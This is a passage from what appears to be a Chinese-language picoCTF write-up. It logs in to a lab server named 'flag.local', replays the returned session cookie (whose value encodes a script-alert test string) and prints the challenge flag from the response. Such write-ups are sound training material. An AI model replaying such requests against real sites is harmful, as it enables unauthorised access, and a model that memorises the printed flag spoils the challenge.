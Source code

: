 再请求登陆：

```http
POST /login HTTP/1.1
Host: flag.local
Content-Length: 38
Content-Type: application/x-www-form-urlencoded

user=realbusinessuser&pass=potoooooooo
```

响应：

```http
HTTP/1.1 302 Found
x-powered-by: Express
set-cookie: real_business_token=PHNjcmlwdD5hbGVydCgid2F0Iik8L3NjcmlwdD4%3D; Path=/
location: /
vary: Accept
content-type: text/plain; charset=utf-8
content-length: 23
date: Tue, 09 Oct 2018 15:11:46 GMT
connection: close

Found. Redirecting to /
```

带上cookie请求：

```http
GET / HTTP/1.1
Host: flag.local
cookie: real_business_token=PHNjcmlwdD5hbGVydCgid2F0Iik8L3NjcmlwdD4%3D; Path=/
```

响应：

```http
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 438
etag: W/"1b6-eYJ8DUTdkgByyfWFi6OJJSjopFg"
date: Tue, 09 Oct 2018 15:12:57 GMT
connection: close


<html>
    <head>
        <link rel="stylesheet" type="text/css" href="main.css" />
    </head>
    <body>
        <header>
            <h1>Real Business Internal Flag Server</h1>
            <div class="user">Real Business Employee</div>
            <a href="/logout">Logout</a>
        </header>
        <main>
            <p>Hello <b>Real Business Employee</b>!  Today's flag is: <code>picoCTF{0nLY_Us3_n0N_GmO_xF3r_pR0tOcol5_2e14}</code>.</p>
        </main>
    </body>
</html>
```
